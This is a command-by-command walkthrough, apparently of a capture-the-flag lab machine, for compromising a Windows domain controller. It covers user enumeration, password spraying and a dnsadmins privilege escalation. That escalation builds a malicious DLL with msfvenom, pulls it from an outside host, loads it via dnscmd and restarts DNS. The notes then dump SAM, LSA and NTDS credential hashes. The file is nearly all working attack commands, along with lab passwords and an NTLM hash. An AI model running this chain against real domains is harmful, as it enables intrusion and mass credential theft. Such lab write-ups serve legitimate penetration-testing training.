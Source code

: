 ```bash
enum4linux -a $tip | tee enum4linux.log

cat userenum.txt | cut -d " " -f 1 | cut -d "[" -f 2 | cut -d "]" -f 1  > domainuser.lis

# asrepoast, no found.
GetNPUsers.py -usersfile domainuser.list  -no-pass -dc-ip $tip megabank.local/ -format hashcat -outputfile asreproast.hash

# password sparay, melanie pwned.
echo 'Welcome123!' > password.list
crackmapexec smb $tip -u domainuser.list -p password.lis

# check password
crackmapexec smb $tip -u melanie -p 'Welcome123!' --shares
crackmapexec winrm $tip -u melanie -p 'Welcome123!'

---- Exploit melanie
evil-winrm -u melanie -p 'Welcome123!' -i $tip

# ls -force, hide dir and file; found ryan password.
cd \
ls -force 

# connect to ryan, no share found.
## ryan member of dnsadmin
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i $tip

whoami /all

---- System
ls `pwd`
# exploit dnsadmin
msfvenom -p windows/x64/exec cmd='net group "domain admins" ryan /add /domain' -f dll -o adduser.dll

iwr -uri http://10.10.14.90/adduser.dll -outfile add.dll

dnscmd  /config /serverlevelplugindll c:\temp\add.dll
dnscmd  /config /serverlevelplugindll \\10.10.14.90\share\adduser.dll
dnscmd  /config /serverlevelplugindll \\10.10.14.90\share\rev.dll
sc.exe \\resolute stop dns
sc.exe \\resolute start dns

# reconnect via evil-winrm, got admin

# dump hash
## failed.
secretsdump.py -just-dc megabank.local/ryan:'Serv3r4Admin4cc123!'@$tip

cme smb $tip -u ryan -p 'Serv3r4Admin4cc123!' --ntds

# only local hash, dump with administrator hash.
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --sam

# got cleartext password, dump from lsass.exe
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --lsa

# got dc user hash.
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --ntds

# wrong argument.
crackmapexec smb $tip -u administrator -H fb3b106896cdaa8a08072775fbd9afe9 --ntds-history

```
